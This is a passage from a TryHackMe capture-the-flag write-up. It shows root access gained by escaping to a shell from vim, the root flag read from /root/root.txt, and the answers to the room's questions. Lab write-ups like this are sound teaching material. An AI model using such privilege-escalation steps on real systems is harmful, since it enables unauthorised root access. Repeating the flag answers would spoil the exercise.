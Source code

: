 	> :sh

	> whoami

	```
	root
	```

	Root shell obtained successfully!


<br>

## Root flag:

> cd /root

> ls -l

```
-rw-r--r-- 1 root root 24 aug 17  2019 root.txt
```

> cat root.txt

```
W3ll d0n3. You made it!
```


<br>

## THM Questions:

* _Q8_: What can you leverage to spawn a privileged shell? <br> _A_: `vim`
* _Q9_: What's the root flag? <br> _A_: `W3ll d0n3. You made it!`


<br>

---
---

<div align="center">

💻 Created by [Jayaditya Dev](https://tryhackme.com/p/jayadityadev)

🚀 Find me on [GitHub](https://github.com/jayadityadev)

</div>

---
---